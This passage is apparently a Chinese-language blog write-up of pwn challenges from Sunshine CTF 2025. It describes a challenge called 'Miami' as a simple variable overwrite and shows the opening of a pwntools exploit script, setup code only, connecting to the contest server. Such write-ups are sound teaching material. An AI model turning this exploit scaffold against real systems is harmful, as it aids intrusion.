 ```yaml
---
title: "Write-ups: Sunshine CTF 2025"
published: 2025-09-29
updated: 2025-09-29
description: "Write-ups for Sunshine CTF 2025 pwn aspect."
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# i95

这个方向都是栈 Pwn，很简单，直接 AK 了。

## Miami

### Information

- Category: Pwn
- Points: 100

### Description

> Dexter is the prime suspect of being the Bay Harbor Butcher, we break into his login terminal and get the proof we need!

### Write-up

覆盖变量值即可。

### Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./miami"
HOST, PORT = "chal.sunshinectf.games", 25601

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


```
